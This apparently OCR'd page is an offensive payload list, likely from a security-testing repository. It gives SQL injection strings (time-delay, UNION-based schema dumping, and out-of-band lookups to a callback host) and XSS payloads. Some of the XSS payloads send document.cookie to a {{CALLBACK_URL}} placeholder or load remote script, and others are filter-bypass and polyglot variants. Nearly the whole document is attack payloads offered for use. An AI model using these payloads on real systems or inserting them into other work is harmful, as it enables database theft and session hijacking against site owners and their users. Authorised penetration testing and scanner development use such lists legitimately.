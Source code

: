 ```
' OR pg_sleep(5)--
" OR pg_sleep(5)--
' AND 1=IF(1=1,SLEEP(5),0)--
' OR BENCHMARK(5000000,MD5('a'))--
' OR 1=(SELECT 1 FROM PG_SLEEP(5))--

# === UNION-Based ===
' UNION SELECT 1,2,3--
' UNION SELECT NULL,NULL,NULL--
' UNION SELECT 1,@@VERSION,3--
' UNION SELECT 1,user(),3--
' UNION SELECT 1,table_name,column_name FROM information_schema.columns--
-1' UNION SELECT 1,GROUP_CONCAT(schema_name),3 FROM information_schema.schemata--

# === Out-of-Band (OAST) ===
' UNION SELECT LOAD_FILE(CONCAT('\\\\', (SELECT DATABASE()), '.{{CALLBACK_URL}}\\a'))--
' AND (SELECT UTL_INADDR.GET_HOST_ADDRESS('{{CALLBACK_URL}}') FROM DUAL) IS NULL--
' AND (SELECT UTL_HTTP.REQUEST('http://{{CALLBACK_URL}}') FROM DUAL) IS NULL--
  
```

**2. Cross-Site Scripting (XSS)**

```
# === Basic Payloads ===
"><script>alert(document.domain)</script>
'><script>alert(document.cookie)</script>
<script>fetch('//{{CALLBACK_URL}}?c='+btoa(document.cookie))</script>

# === HTML Tag & Event Handler Payloads ===
<img src=x onerror=alert(1)>
<svg/onload=alert(1)>
<body onload=alert(1)>
<details/open/ontoggle=alert(1)>
<iframe src="javascript:alert('XSS')">
<img src="x:x" onerror="window.location='https://{{CALLBACK_URL}}/'+document.cookie">
<video><source onerror="alert(1)">
<math><maction actiontype="toggle" xlink:href="javascript:alert(1)">CLICKME</maction></math>
<a href="javascript:alert(1)">Click Me</a>

# === Polyglot Payloads (Work in multiple contexts) ===
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
'">><marquee><img src=x onerror=alert(1)></marquee>
`"'><img src=x onerror=alert(1)>
-->">'>"><img src=x onerror=alert(1)>

# === Encoded & Bypass Payloads ===
%3cscript%3ealert(1)%3c/script%3e
&lt;script&gt;alert(1)&lt;/script&gt;
<scr<script>ipt>alert(1)</scr</script>ipt>
<img src="/" ="" onerror=alert(1)>
<sCrIpT sRc=//{{CALLBACK_URL}}></sCrIpT>
  
```
